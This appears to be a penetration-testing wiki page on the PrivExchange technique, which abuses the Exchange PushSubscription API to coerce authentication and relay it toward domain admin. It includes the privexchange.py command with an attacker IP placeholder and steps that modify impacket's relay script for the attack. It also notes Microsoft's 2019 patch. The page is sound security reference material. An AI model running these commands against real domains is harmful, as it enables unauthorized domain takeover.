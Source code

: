 # PrivExchange \(PushSubscription abuse\)

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces/)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-lm-and-ntlm/relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/delegations.md#unconstrained-delegations-kud)\).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

